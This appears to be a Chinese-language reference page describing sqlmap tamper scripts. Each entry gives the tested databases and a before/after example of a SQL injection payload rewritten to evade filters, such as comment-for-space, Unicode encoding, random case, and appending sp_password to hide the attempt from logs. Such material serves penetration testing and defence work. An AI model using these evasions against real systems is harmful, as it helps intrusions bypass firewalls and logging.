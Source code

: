 #### **between.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：用`NOT BETWEEN 0 AND #`替换`>`
使用脚本前：`tamper('1 AND A > B--')`
使用脚本后：`1 AND A NOT BETWEEN 0 AND B--`

#### **percentage.py**

适用数据库：ASP
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
作用：在每个字符前添加一个`%`
使用脚本前：`tamper('SELECT FIELD FROM TABLE')`
使用脚本后：`%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E`

#### **sp_password.py**

适用数据库：MSSQL
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
使用脚本前：`tamper('1 AND 9227=9227-- ')`
使用脚本后：`1 AND 9227=9227-- sp_password`

#### **charencode.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`
使用脚本后：`%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45`

#### **randomcase.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：随机大小写
使用脚本前：`tamper('INSERT')`
使用脚本后：`INseRt`

#### **charunicodeencode.py**

适用数据库：ASP、[http://ASP.NET](https://link.zhihu.com/?target=http%3A//ASP.NET)
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
作用：适用字符串的unicode编码
使用脚本前：`tamper('SELECT FIELD%20FROM TABLE')`
使用脚本后：`%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045`

#### **space2comment.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将空格替换为`/**/`
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT/**/id/**/FROM/**/users`

#### **equaltolike.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
作用：将`=`替换为`LIKE`
使用脚本前：`tamper('SELECT * FROM users WHERE id=1')`
使用脚本后：`SELECT * FROM users WHERE id LIKE 1`
